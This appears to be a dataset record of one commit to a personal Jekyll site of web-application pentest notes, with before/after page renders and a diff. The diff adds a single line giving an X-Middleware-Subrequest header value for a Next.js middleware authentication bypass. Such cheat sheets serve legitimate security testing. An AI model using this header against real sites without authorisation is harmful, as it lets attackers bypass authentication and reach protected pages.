

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/webappnotes/miscellaneous.md, in a window 1280 px wide and 900 px high, scrolled down 657 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
added nextjs payload

```diff
--- a/markdown/webappnotes/miscellaneous.md
+++ b/markdown/webappnotes/miscellaneous.md
@@ -33,6 +33,7 @@
 
 ## Next.js
 - Use `__BUILD_MANIFEST.sortedPages` to see a list of all pages
+- Use `X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware` for the auth bypass when `X-Powered-By: Next.js`
 
 ## CICD
 - Use [Gato](https://github.com/praetorian-inc/gato) for enumerating/attacking Github pipeline
```
